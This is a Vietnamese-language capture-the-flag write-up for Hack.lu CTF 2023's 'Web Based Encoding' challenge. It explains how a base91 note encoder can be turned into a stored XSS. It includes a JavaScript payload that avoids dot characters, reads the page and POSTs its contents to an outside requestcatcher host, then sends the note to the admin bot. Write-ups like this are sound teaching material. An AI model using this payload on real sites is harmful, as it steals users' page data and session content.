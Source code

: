 # **Hacklu CTF 2023**

## **Web Based Encoding**

![](./img_Hacklu/Screenshot%202023-10-23%20091408.png)


- Ở đây trang web có chức năng tạo note và thông tin của note sẽ được encode base91. 

- Ý tưởng của tôi đưa ra ở đây để XSS đó là tôi sẽ decode nội dung qua base91 một lần và khi đây trang web sẽ encode lại ra base91 sẽ được script xss.

![](./img_Hacklu/Screenshot%202023-10-23%20093654.png)

- Thực hiện XSS thành công:

![](./img_Hacklu/Screenshot%202023-10-23%20093820.png)

- Điều chúng ta chú ý ở đây là trong bảng `base91_alphabet` không có kí tự `'.'` nên khi encode dấu `.` sẽ được loại bỏ.

![](./img_Hacklu/Screenshot%202023-10-23%20094313.png)


- Vậy chúng ta cần viết một script fetch không có dấu chấm.

```javascript
<script>
fetch("/")
    ["then"](x => x["text"]())
    ["then"](x => fetch("https://ujha77wx"+String["fromCharCode"](46)+"requestcatcher"+String["fromCharCode"](46)+"com/", {
        method: "post",
        body: x
    }))
</script>aaa

```

![](./img_Hacklu/Screenshot%202023-10-23%20094938.png)

- Từ đấy, ta sẽ xss và gửi report lên admin.

![](./img_Hacklu/Screenshot%202023-10-23%20095400.png)

![](./img_Hacklu/Screenshot%202023-10-23%20095440.png)